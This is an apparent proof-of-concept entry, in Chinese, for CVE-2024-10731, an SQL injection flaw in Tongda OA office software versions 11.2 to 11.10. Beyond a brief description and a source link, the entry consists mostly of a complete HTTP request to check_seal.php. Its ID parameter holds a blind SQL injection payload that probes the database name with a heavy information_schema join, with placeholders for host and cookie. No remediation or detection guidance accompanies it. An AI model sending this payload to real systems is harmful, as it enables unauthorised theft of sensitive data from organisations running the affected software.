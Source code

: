 # CVE-2024-10731

>通达OA是一款协同办公自动化软件，由北京通达信科科技有限公司自主研发，为各行业不同规模的众多用户提供信息化管理能力。

## 来源

[https://github.com/LvZCh/td/issues/16](https://github.com/LvZCh/td/issues/16)

## 简介

通达OA中存在SQL注入漏洞，攻击者通过该漏洞可以获取数据库中的敏感信息。

## 影响范围

-   v11.2 <= 通达OA <= v11.10

## 漏洞类型

SQL注入

## POC

```http
GET /pda/appcenter/check_seal.php?ID=1%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: {{Cookie}}
Connection: close
```



